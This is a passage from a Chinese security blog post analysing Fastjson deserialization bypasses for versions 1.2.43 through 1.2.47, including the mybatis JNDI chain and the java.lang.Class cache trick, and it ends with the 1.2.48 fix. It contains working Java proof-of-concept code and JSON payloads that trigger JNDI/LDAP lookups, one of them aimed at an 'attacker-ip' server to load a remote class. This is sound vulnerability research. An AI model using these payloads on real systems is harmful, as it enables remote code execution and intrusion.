import com.alibaba.fastjson.parser.ParserConfig;
import com.sun.rowset.JdbcRowSetImpl;
import com.alibaba.fastjson.JSON;

public class Fastjson_Jdbc_LDAP {
    public static void main(String[] args) {
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String payload = "{\n" +
                "  \"@type\":\"[com.sun.rowset.JdbcRowSetImpl\"[{,\n" +
                "  \"dataSourceName\":\"ldap://localhost:9999/RMIHello\",\n" +
                "  \"autoCommit\":true\n" +
                "}";
        JSON.parse(payload); // 触发 JNDI lookup → 加载 RMIHello → 执行 calc
    }
}
```

### 1.2.44修复

这个版本修复了[的绕过方式，没有了在这个基础上的绕过链了;

### 1.2.45

这个版本**加了一些黑名单**,但存在组件漏洞可以进行jndi注入;也就是说这个黑名单没有这个组件

我们能通过mybatis组件进行JNDI接口调用，进而加载恶意类。

在1.2.45的黑名单中没有org.apache.ibatis.datasource.jndi.JndiDataSourceFactory;

我们可以看到这条链子可以正常被加载


我们来分析一下这个链子;

跟进到源码 org.apache.ibatis.datasource.jndi.JndiDataSourceFactory;

我们可以看到存在setter方法 setProperties

```java
 public static final String INITIAL_CONTEXT = "initial_context";
  public static final String DATA_SOURCE = "data_source";
  public static final String ENV_PREFIX = "env.";

  private DataSource dataSource;
public void setProperties(Properties properties) {
  try {
    InitialContext initCtx;
    Properties env = getEnvProperties(properties);
    if (env == null) {
      initCtx = new InitialContext();
    } else {
      initCtx = new InitialContext(env);
    }

    if (properties.containsKey(INITIAL_CONTEXT) && properties.containsKey(DATA_SOURCE)) {
      Context ctx = (Context) initCtx.lookup(properties.getProperty(INITIAL_CONTEXT));
      dataSource = (DataSource) ctx.lookup(properties.getProperty(DATA_SOURCE));
    } else if (properties.containsKey(DATA_SOURCE)) {
      dataSource = (DataSource) initCtx.lookup(properties.getProperty(DATA_SOURCE));
    }

  } catch (NamingException e) {
    throw new DataSourceException("There was an error configuring JndiDataSourceTransactionPool. Cause: " + e, e);
  }
}
```

可见存在可控参数DATA_SOURCE；这个值可有由外部传入DATA_SOURCE = "data_source";当 properties 中包含 data_source 键时，它会触发 JNDI 查询，从而触发远程加载恶意类；


构造payload

```json
"{\n" +
                "  \"@type\": \"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory\",\n" +
                "  \"properties\": {\n" +
                "    \"data_source\": \"ldap://localhost:9999/RMIHello\"\n" +
                "  }\n" +
                "}";
```

payload成功执行


代码如下

```java
package org.example.jdbcRowSetImpl;
import org.apache.ibatis.datasource.jndi.JndiDataSourceFactory;
import com.alibaba.fastjson.parser.ParserConfig;
import com.sun.rowset.JdbcRowSetImpl;
import com.alibaba.fastjson.JSON;

public class Fastjson_mybatis_ldap {
    public static void main(String[] args) {
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String payload = "{\n" +
                "  \"@type\": \"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory\",\n" +
                "  \"properties\": {\n" +
                "    \"data_source\": \"ldap://localhost:9999/RMIHello\"\n" +
                "  }\n" +
                "}";
        JSON.parse(payload); // 触发 JNDI lookup → 加载 RMIHello → 执行 calc
    }
}
```

### <=1.2.47通杀绕过

这个版本该payload能够绕过`checkAutoType`内的各种检测，原理是通过Fastjson自带的缓存机制将恶意类加载到`Mapping`中，从而绕过`checkAutoType`检测。

- 1.2.25-1.2.32版本：未开启AutoTypeSupport时能成功利用，开启AutoTypeSupport反而不能成功触发；
- 1.2.33-1.2.47版本：无论是否开启AutoTypeSupport，都能成功利用；

我们先来了解一下关于fastjson的缓存机制

简单来说就是 Fastjson 会将**已加载的类**缓存起来

1. ** 类的特殊性**：`java.lang.Class` 是一个特殊类，他不在fastjson的黑名单中,且在反序列化过程中会调用反序列器,反序列化器中的某个参数可以被类加载 **也就是说可以用来加载其他类，但只是加载这个类此时却没有其他参数传入可以触发JdbcRowSetImpl反序列化的dataSourceName**;但我们这里不需要他直接加载这个类，而是利用它把恶意类写进缓存中
2. **绕过 AutoType 检查**：通过缓存机制，使 Fastjson 认为目标类是合法的，无需检查 AutoType 白名单

## 

我们在checkType的代码中发现，每次都会有从缓存中加载类的情况

```
if (clazz == null) {
    clazz = TypeUtils.getClassFromMapping(typeName);
}
```


接下来我们来看这个mapping在哪里赋值在之前的测试中我们知道

TypeUtils#loadClass会默认把类放到缓存中；也就是说cache的值默认true;,

现在的下一步是如何把我们的恶意类放进缓存中


我们知道在黑名单外的的类加载后会进入 他的反序列化器MiscCodec.deserialze()

我们跟进

MiscCodec.deserialze()


发现其调用了TypeUtils#loadClass

我们知道在TypeUtils#loadClass中会把strval(classname)的值进行mappings.put(class)，因此这时候我们得需要让我们的strval=我们传入的恶意类，这样我们的恶意类就被写进缓存中了


现在我们来看下 如何给strval赋值;可以看到strVal = (String) objVal; objVal = parser.parse(); 因此val属性是必须存在的;objVal 可以从json解析出val的值作为值


因此前半段代码是

```java
{
//不在黑名单中的java.lang.Class
"@type":"java.lang.Class",
 
//val值为我们要写入mapping的恶意类
"val":"com.sun.rowset.JdbcRowSetImpl"
}
```

反序列化路径

```java
// Fastjson 解析 "a" 对象
{"a": {"@type": "java.lang.Class", "val": "com.sun.rowset.JdbcRowSetImpl"}}

// 1.2.47 调用路径：
DefaultJSONParser.parseObject() 
    -> ParserConfig.parseObject() 
        -> TypeUtils.loadClass("java.lang.Class") 
            -> findClass() 
                -> Class.forName("java.lang.Class")  // 成功加载
                    -> MiscCodec.deserialze()  // 进入 java.lang.Class 的反序列化处理器
                        -> TypeUtils.loadClass("com.sun.rowset.JdbcRowSetImpl")  // 关键：加载恶意类
                            -> TypeUtils.mappings.put("com.sun.rowset.JdbcRowSetImpl", clazz)  // 缓存类到全局映射
```

可以看到这里成功赋值为恶意类


可以看到我们的恶意类已经写入缓存中了


后半段其实很好判断了，每次进行checkType都会从缓存中加载类

反序列路径

```java
// Fastjson 解析 "b" 对象
{"b": {"@type": "com.sun.rowset.JdbcRowSetImpl", "dataSourceName": "ldap://attacker-ip:1389/Exploit", "autoCommit": true}}

// 1.2.47 调用路径：
DefaultJSONParser.parseObject() 
    -> ParserConfig.parseObject() 
        -> TypeUtils.loadClass("com.sun.rowset.JdbcRowSetImpl") 
            -> TypeUtils.getClassFromMapping("com.sun.rowset.JdbcRowSetImpl")  // 从缓存中获取类（关键！）
                -> 返回缓存中的 com.sun.rowset.JdbcRowSetImpl 类
                    -> com.sun.rowset.JdbcRowSetImpl()  // 实例化对象
                        -> setDataSourceName("ldap://attacker-ip:1389/Exploit")
                            -> JdbcRowSetImpl.initialize()  // 触发 JNDI 查找
                                -> DataSource dataSource = (DataSource) new InitialContext().lookup(dataSourceName)
                                    -> LDAP 服务器连接
                                        -> 加载恶意类（如 Exploit.class）
                                            -> 恶意类中的 static 代码块执行
                                                -> Runtime.getRuntime().exec("calc")
                                                    -> 远程命令执行（RCE）
    
```

总体路径

```java
JSON.parse() 
→ TypeUtils.loadClass("java.lang.Class") 
  → MiscCodec.deserialze() 
    → TypeUtils.loadClass("com.sun.rowset.JdbcRowSetImpl") 
      → TypeUtils.mappings.put("com.sun.rowset.JdbcRowSetImpl", clazz) 
        → TypeUtils.loadClass("com.sun.rowset.JdbcRowSetImpl") 
          → TypeUtils.getClassFromMapping("com.sun.rowset.JdbcRowSetImpl") 
            → JdbcRowSetImpl.initialize() 
              → JNDI lookup → 恶意类加载 → RCE
```


最后也是payload成功执行了


代码如下

```java
package org.example.jdbcRowSetImpl;
import com.alibaba.fastjson.parser.ParserConfig;
import com.sun.rowset.JdbcRowSetImpl;
import com.alibaba.fastjson.JSON;

public class Fastjson_bypass {

    public static void main(String[] args) {
    String code="{\n" +
            "\t\"a\": {\n" +
            "\t\t\"@type\": \"java.lang.Class\",\n" +
            "\t\t\"val\": \"com.sun.rowset.JdbcRowSetImpl\"\n" +
            "\t},\n" +
            "\t\"b\": {\n" +
            "\t\t\"@type\": \"com.sun.rowset.JdbcRowSetImpl\",\n" +
            "\t\t\"dataSourceName\": \"ldap://localhost:9999/RMIHello\",\n" +
            "\t\t\"autoCommit\": true\n" +
            "\t}\n" +
            "}";

       JSON.parse(code);}
}
```


总结一下吧:1.2.47这条链路构思真的挺精妙的，主要是我自己尝试挖的话可能可以想到利用缓存绕过黑白名单的限制，但可能找不到MiscCodec.deserialze这个函数来加载我们的恶意类;因此反序列化漏洞最重要的还是找到一条通路；找到**各个调用关系/函数**来链接我们的恶意代码，最终达到执行的目的;这就需要很深入的研究和挖掘;需要耐心，需要底层的分析手法；更需要保持注意力;

1.2.48这个版本修复

cache默认值改为false

对`TypeUtils#loadClass`中第三处较为宽松的`mapping.put`做了限制

将`java.lang.Class`类放入了黑名单，这样彻底封死了从mapping中加载恶意类。

后续的版本也存在一些第三方组件的rce；有机会再分析；

## 总结一下全文吧;

FastJson反序列化核心是存在@type这个字段可以加载其他类;相当于一个后门作用，因此在低版本1.2.24中就存在了jdbcRowSetImpl和TemplatesImpl这两条链;后来1.2.25-1.2.41之后加了黑名单;但仍然存在可以使用 L和;进行绕过，由于过滤不严和疏忽，导致1.2.42可以使用双写绕过;但都忘了<=1.2.43存在[开头也可以绕过;他们的根本绕过原理是一样的都是 Fastjson中将[ 和L开头；结尾的类名截断解析导致的；这个版本后虽然对这两个进行了严格的过滤，但是仍然存在一个机制就是缓存机制(每次checkAutoType时都优先从缓存中读取类名和默认将所有类写进缓存);核心部分就是利用一个不在黑名单重的类java.lang.class类将jdbcRowSetImpl写进缓存中，在第二次json扫描解析时直接从缓存中读取恶意类导致绕过黑白名单；这就是这篇文章的总结了；待续；


敬请期待后续...

